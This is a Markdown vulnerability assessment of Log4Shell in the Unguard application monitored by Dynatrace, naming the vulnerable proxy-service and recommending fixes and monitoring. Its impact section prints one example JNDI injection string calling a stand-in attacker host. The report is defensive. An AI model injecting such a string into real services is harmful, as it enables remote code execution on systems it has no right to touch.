 # CVE-2021-44228 (Log4Shell) Vulnerability Assessment Report

## Executive Summary

**CRITICAL VULNERABILITY DETECTED**: CVE-2021-44228 (Log4Shell) is present in the Unguard application monitored by Dynatrace.

### Vulnerability Details
- **CVE ID**: CVE-2021-44228  
- **Severity**: CRITICAL (CVSS 10.0)
- **Impact**: Remote Code Execution (RCE)
- **Affected Versions**: Apache Log4j 2.0 to 2.14.x

## Findings

### Directly Affected Entities

Based on DQL analysis of the Dynatrace-monitored environment:

1. **Vulnerable Process Group**:
   - **Name**: `SpringBoot org.dynatrace.ssrfservice.Application unguard-proxy-service-*`
   - **Process Group ID**: `PROCESS_GROUP-CE7F92ECB243E595`
   - **Log4j Version**: 2.4 (VULNERABLE)
   - **Host**: `unguard-cluster-unguard-nodes-Node` (HOST-13289A386D734E29)
   - **OS**: Amazon Linux 2023

2. **Non-Vulnerable Process Group** (for comparison):
   - **Name**: `SpringBoot org.dynatrace.profileservice.ProfileServiceApplication unguard-profile-service-*`
   - **Log4j Version**: 2.17.2 (SAFE)

### Related Entities Affected

- **Affected Hosts**: 1 (unguard-cluster-unguard-nodes-Node)
- **Total Process Groups with Log4j**: 2
- **Vulnerable Process Groups**: 1

### Vulnerability Impact Analysis

The vulnerable proxy-service:
- Exposes port 8081
- Handles HTTP requests with user-controlled input
- Logs user input which can contain JNDI lookup strings
- Can be exploited via log message injection (e.g., `${jndi:ldap://attacker.com/exploit}`)

## Risk Assessment

### Immediate Risks
1. **Remote Code Execution**: Attackers can execute arbitrary code on the host
2. **Data Exfiltration**: Sensitive application data could be accessed
3. **Lateral Movement**: Compromised service could be used to attack other systems
4. **Service Disruption**: Malicious payloads could crash or destabilize the service

### Exploitation Vectors
1. **HTTP Parameter Injection**: Malicious JNDI strings in URL parameters
2. **Header Injection**: Malicious payloads in HTTP headers (Accept-Language field)
3. **Log Injection**: Any user input that gets logged can trigger the vulnerability

## Recommended Actions

### Immediate (Priority 1)
1. **Upgrade Log4j**: Update proxy-service to use Log4j 2.15.0 or later
2. **Network Isolation**: Implement network controls to limit outbound connections
3. **WAF Rules**: Deploy rules to detect and block JNDI lookup patterns

### Short-term (Priority 2)
1. **JVM Configuration**: Add `-Dlog4j2.formatMsgNoLookups=true` to JVM arguments
2. **Monitoring**: Implement detection rules for JNDI patterns in logs
3. **Incident Response**: Prepare incident response procedures

### Long-term (Priority 3)
1. **Dependency Management**: Implement automated dependency scanning
2. **Security Testing**: Include vulnerability scanning in CI/CD pipeline
3. **Regular Updates**: Establish process for timely security updates

## DQL Queries for Ongoing Monitoring

The following DQL queries can be used to monitor for this vulnerability:

1. **Process Group Detection**: `cve-2021-44228-process-groups.dql`
2. **Directly Affected Entities**: `cve-2021-44228-directly-affected-entities.dql`
3. **Related Entities Analysis**: `cve-2021-44228-related-entities.dql`
4. **Comprehensive Assessment**: `cve-2021-44228-comprehensive-assessment.dql`

## Conclusion

CVE-2021-44228 poses a critical security risk to the Unguard application. The proxy-service is vulnerable and requires immediate attention. The vulnerability has been confirmed through Dynatrace monitoring and DQL analysis.

**Status**: ⚠️ ACTIVE VULNERABILITY DETECTED
**Priority**: 🔴 CRITICAL - Immediate action required
